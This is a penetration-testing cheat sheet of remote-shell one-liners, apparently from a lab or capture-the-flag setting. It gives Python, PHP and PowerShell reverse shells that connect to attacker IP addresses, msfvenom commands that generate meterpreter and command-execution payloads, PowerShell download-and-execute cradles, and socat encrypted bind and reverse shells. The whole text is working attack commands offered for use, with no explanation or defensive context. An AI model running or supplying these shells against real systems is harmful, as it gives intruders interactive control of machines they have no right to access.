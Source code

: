 ### Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

 
### Using msfvenom 
```
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.14.16 LPORT=4444 -f raw > shell.php
msfvenom -p windows/exec CMD="cmd.exe /c type flag.txt" -f python -b"x00\x0a\x0d\x25\x26\x2b\x3d"
```


### Powershell
```
powershell -c "IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.1.109/1.bat'))"

c:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.22:8000/Invoke-PowerShellTcp.ps1')
```

```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

### Encrypted Shell
Socat Bind Shell
```
# Create Cert and Key
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
# Create .pem file
cat bind_shell.key bind_shell.crt > bind_shell.pem
# Setup Listener
sudo socat OPENSSL-LISTEN:443,cert=bin_shell.pem,verify=0,fork EXEC:/bin/bash
# OR Setup Listener with
sudo socat -d -d OPENSSL-LISTEN:443,cert=rev_shell.pem,verify=0,fork STDOUT
# Connect
socat - OPENSSL:10.10.10.10:443,verify=0
# OR Connect with
socat OPENSSL:192.168.119.223:443,verify=0 EXEC:'cmd.exe',pipes

```
